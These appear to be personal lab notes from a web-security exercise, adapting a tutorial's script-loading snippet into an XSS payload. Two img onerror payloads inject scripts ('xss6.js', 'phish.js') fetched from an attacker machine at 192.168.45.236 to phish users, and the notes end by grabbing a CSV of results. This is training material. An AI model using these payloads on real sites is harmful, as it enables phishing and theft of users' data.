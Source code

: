 On the website it shows `index.js` showing how to create a script element- we only need the highlighted lines
![[Pasted image 20240805202516.png]]
index.js
```js
const script = document.createElement('script');

// use local file
// script.src = 'script.js';

script.src =
  'https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.1/jquery.min.js';

script.async = true;

// make code in script to be treated as JavaScript module
// script.type = 'module';

script.onload = () => {
  console.log('Script loaded successfuly');
  const box = document.getElementById('box');
  box.textContent = 'The script has loaded.';
};

script.onerror = () => {
  console.log('Error occurred while loading script');
};

document.body.appendChild(script);
```

Full Payload
- the only thing changed from the google search is the `script.src` which is pointing to my kali machine and the `xss6.js` script which is the phishing script

Script Explanation:
- `img src` because `innerHTML`
- making a constant script with `const script` and creating an element named `script`
- the `script.src` is pointing to `xss6.js` which is the phishing java script created
- `script.async` is used to parse and evaluate as soon as possible
- `console.log` is for trouble shooting to see the log
- `document.body` just appends this to the body
```js
<img src="x" onerror='const script = document.createElement("script");script.src ="http://192.168.45.236/xss6.js";script.async = true;console.log("Script loaded successfully");document.body.appendChild(script);'>

<img src="x" onerror='const script = document.createElement("script");script.src ="http://192.168.45.236/phish.js";script.async = true;console.log("Script loaded successfully");document.body.appendChild(script);'>
```
Submit the new `FULL PAYLOAD` into the field
![[Pasted image 20240805203225.png]]
grab the `csv`
![[Pasted image 20240805203323.png]]
